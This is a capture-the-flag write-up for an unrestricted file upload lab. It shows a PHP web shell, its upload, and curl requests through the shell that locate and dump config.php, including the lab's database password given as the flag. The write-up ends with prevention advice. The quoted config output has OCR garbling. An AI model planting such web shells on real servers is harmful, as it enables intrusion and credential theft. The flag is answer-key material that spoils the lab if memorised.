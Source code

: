 
---

# Unrestricted File Upload Challenge writeup

## Introduction
In this writeup I will guide you through on identifying the vulnerability and uploading a malicious file to obtain access to server files

## Objective
This lab contains a Unrestricted File Upload vulnerability. The application has an image upload function, but the uploaded file content or type is not checked on the server.

To complete the lab, upload a malicious PHP script and read the "config.php" file.

What is the database password in the config.php file?

## Example website
```
https://correct-phoenix.europe1.hackviser.space/ 
```
The link will change/be different for you

## Tools used

- **Web Browser/Curl:** 
- **PHP Script:** 
- **Command Line Tools:**

---

## Steps to Exploit

### Step 1: Crafting the Malicious File

Firstly when accessing the site playing around with the website then seeing the page source it had no method in validating the file and file extension (ex: png, jpg, & ect)

With that we create a malicious file to upload onto the website

```php
<?php
  echo shell_exec($_GET['cmd']);
?>
```
The script itself allows us to use the file to execute cmd/terminal commands through accessing the file through the uploaded link 

I saved this as `photo.php.` to exploit the improper validation of file extensions

---

### Step 2: Uploading the Malicious File

Using the website's upload feature I uploaded `photo.php` The application processed the file without error showing us success in "bypassing the file validation system"

If you didnt notice already the link extension to the uploaded files is `/uploads/`

---

### Step 3: Executing the Malicious File

With the script uploaded I accessed via link

```plaintext
https://correct-phoenix.europe1.hackviser.space/uploads/photo.php
```

To test I used the command command `https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=ls` to list the directory files to view other files previously uploaded or not accessible by a normal user

It worked meaning we can execute terminal commands onto the server

---

### Step 4: Locating the config.php File

To locate the `config.php` file I used the `find` command that scans the entire server for the file name

```bash
find / -type f -name "config.php" 2>/dev/null
```

```bash
curl 'https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=find%20/%20-type%20f%20-name%20%22config.php%22%202%3E/dev/null'
```

This command located the file at `/var/www/html/config.php`

---

### Step 5: Reading the config.php File

Finally we can read the contents of the target file `config.php` using:

```bash
curl 'https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=cat%20/var/www/html/config.php'
```

This gives us the output of the php file containing the database information stored within the file

```php
‹?php
tryt
$host = 'localhost';
$db_name = 'hv_database' ;
$charset = 'utf8';
$username = 'root';
$password = '8jv77mvXwR7LVU5v ' ;
$db = new PDO ("mysql:host=$host;dbname=$db_name; charset=$charset", Susern
ame, $password);
} catch (PDOException $e){
}
?>
```

---

# Flag

```
8jv77mvXwR7LVU5v
```

---

## Recommendations to prevent this happening

- **Validate file types both by extension and MIME types**
- **Implement file content checking to prevent malicious uploads**
- **Restrict executable permissions in upload directories**

---

